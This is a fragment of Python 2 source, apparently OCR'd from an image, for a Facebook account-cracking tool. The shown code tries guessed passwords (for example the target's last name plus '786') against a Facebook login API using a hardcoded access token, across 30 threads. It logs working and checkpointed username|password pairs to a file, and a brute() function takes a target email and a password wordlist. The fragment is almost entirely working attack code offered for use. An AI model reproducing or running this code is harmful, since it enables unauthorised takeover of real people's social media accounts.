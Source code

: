 																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass7 + '\033[0;39m | \033[0;39m' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																else:
																	pass8 = b['last_name'] + '786'
																	data = urllib.urlopen("https://b-api.facebook.com/methode/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f522ef6")
																	q = json.load(data)
																	if 'access_token' in q:
																		print '\033[0;92m[OK] \033[0;39m '+ user + ' \x1b[0;36;39|\033[0;39m ' + pass8 + '\033[0;39m | \033[0;39m' + b['name']
																		oks.append(user+pass8)
																	else:
																		if 'www.facebook.com' in q["error_msg"]:
																			print '\x1b[0;91;39[CP] \033[0;39m ' + user + '\x1b[0;36;39|\033[0;39m ' + pass8 + '\033[0;39m | \033[0;39m' + b['name']
																			cek = open("out/CP.txt", "a")
																			cek.close()
																			cekpoint.append(user+pass8)
																	
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[0;39;40m[•] Process Has Been Completed\033[0;39m....'
	print "\033[0;39;40m[+] Total OK/\033[0;97mCP \033[0;39m: \033[0;39m"+str(len(oks))+"\033[0;39;40m/\033[0;39;40m"+str(len(cekpoint))
	print '\033[0;39;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[0;30;39───────────────────────────────────────────
           """
	raw_input("\n\033[0;39m[\033[0;39mExit\033[0;39m]")
	os.system('python2 a')
 
def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[0;39m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        masuk()
    else:
        os.system('clear')
        print logo
        print '\033[0;30;39 ~~~~~~~~~~~~~~~~~~~~~~~~~~~'
        try:
            email = raw_input('\033[0;39m[+] \033[0;39mID\033[0;39m/\033[0;39mEmail \033[0;39mTarget \033[0;39m:\033[0;39m ')
            passw = raw_input('\033[0;39m[+] \033[0;39mWordlist \033[0;39mext(list.txt) \033[0;39m: \033[0;39m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[0;30;39 ~~~~~~~~~~~~~~~~~~~~~~~~~~~'
            print '\033[0;39m[\033[0;39m\xe2\x9c\x93\033[0;39m] \033[0;39mTarget \033[0;39m:\033[0;39m ' + email
            print '\033[0;39m[+] \033[0;39mTotal\033[0;39m ' + str(len(total)) + ' \033[0;39mPassword'